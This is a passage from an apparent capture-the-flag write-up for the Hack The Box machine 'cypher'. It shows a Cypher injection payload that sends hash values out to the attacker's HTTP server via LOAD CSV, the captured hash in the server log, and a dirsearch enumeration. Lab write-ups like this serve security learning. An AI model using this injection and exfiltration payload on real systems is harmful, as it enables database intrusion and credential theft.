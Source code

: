 ok, we have a user called: __graphasm__
Now let's try to get the values ​​in __HASH__:

```
' OR 1=1 WITH 1 as a MATCH (f:SHA1) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.X.X/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Output:

```
$ python -m http.server 80
...
10.10.11.57 - - [10/Apr/2025 23:08:09] "GET / value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```

Ok we have the HASH value: 9f54ca4c130be6d529a56dee59dc2b2090e43acf

We have:
- User: __graphasm__
- HASH: __9f54ca4c130be6d529a56dee59dc2b2090e43acf__

I tried with crackstation (which I highly recommend if you have a low-powered PC) to see if we could crack the password, but I didn't receive anything...

So we have to look again!

## Enumeration directory

Doing an enumeration with dirsearch I found several directories, but one intrigued me more than it should have...

```
$ dirsearch -u http://cypher.htb/
...
[11:05:41] 301 -  178B  - /testing  ->  http://cypher.htb/testing/ 
...
```

![](Screenshot_2025-05-02_11_08_17.png)
